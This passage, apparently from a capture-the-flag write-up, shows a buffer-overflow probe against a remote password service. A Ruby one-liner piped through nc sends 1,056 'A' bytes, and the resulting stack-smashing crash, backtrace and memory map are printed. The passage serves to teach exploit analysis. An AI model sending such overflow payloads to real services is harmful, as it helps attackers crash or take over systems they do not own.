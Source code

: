 <h1>Exploring Primitives</h1>
<p>
Next we tried sending various lengths of our favorite character (0x41). We started by overwriting just a small amount of data after the buffer.
Figure 5 shows the output we saw when we overwrote only 32 bytes beyond the buffer.
</p>
<pre>
$ ruby -e 'str = "A" * (1024+32); puts [str.length].pack("V") + str' | \
 nc 54.197.145.219 666
If you guess the password, I will give you a reward!
BAD FORMAT
EXPECTED: PASSWORD=[PASSWORD]
*** stack smashing detected ***: problem terminated
======= Backtrace: =========
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x37)[0x7fbe0a092917]
/lib/x86_64-linux-gnu/libc.so.6(__fortify_fail+0x0)[0x7fbe0a0928e0]
problem[0x40134e]
problem[0x400f00]
/lib/x86_64-linux-gnu/libc.so.6(__libc_start_main+0xfd)[0x7fbe09fc0ead]
problem[0x40104d]
======= Memory map: ========
00400000-00405000 r-xp 00000000 ca:00 137110                             /home/harry/problem
00605000-00606000 rw-p 00005000 ca:00 137110                             /home/harry/problem
01a08000-01a29000 rw-p 00000000 00:00 0                                  [heap]
7fbe09fa2000-7fbe0a124000 r-xp 00000000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a124000-7fbe0a323000 ---p 00182000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a323000-7fbe0a327000 r--p 00181000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a327000-7fbe0a328000 rw-p 00185000 ca:00 131172                     /lib/x86_64-linux-gnu/libc-2.13.so
7fbe0a328000-7fbe0a32d000 rw-p 00000000 00:00 0
7fbe0a32d000-7fbe0a342000 r-xp 00000000 ca:00 131614                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbe0a342000-7fbe0a542000 ---p 00015000 ca:00 131614                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbe0a542000-7fbe0a543000 rw-p 00015000 ca:00 131614                     /lib/x86_64-linux-gnu/libgcc_s.so.1
7fbe0a543000-7fbe0a5c4000 r-xp 00000000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a5c4000-7fbe0a7c3000 ---p 00081000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a7c3000-7fbe0a7c4000 r--p 00080000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a7c4000-7fbe0a7c5000 rw-p 00081000 ca:00 131180                     /lib/x86_64-linux-gnu/libm-2.13.so
7fbe0a7c5000-7fbe0a8ad000 r-xp 00000000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0a8ad000-7fbe0aaad000 ---p 000e8000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0aaad000-7fbe0aab5000 r--p 000e8000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0aab5000-7fbe0aab7000 rw-p 000f0000 ca:00 5400                       /usr/lib/x86_64-linux-gnu/libstdc++.so.6.0.17
7fbe0aab7000-7fbe0aacc000 rw-p 00000000 00:00 0
7fbe0aacc000-7fbe0aaec000 r-xp 00000000 ca:00 131650                     /lib/x86_64-linux-gnu/ld-2.13.so
7fbe0ace1000-7fbe0ace6000 rw-p 00000000 00:00 0
7fbe0ace9000-7fbe0aceb000 rw-p 00000000 00:00 0
7fbe0aceb000-7fbe0acec000 r--p 0001f000 ca:00 131650                     /lib/x86_64-linux-gnu/ld-2.13.so
7fbe0acec000-7fbe0aced000 rw-p 00020000 ca:00 131650                     /lib/x86_64-linux-gnu/ld-2.13.so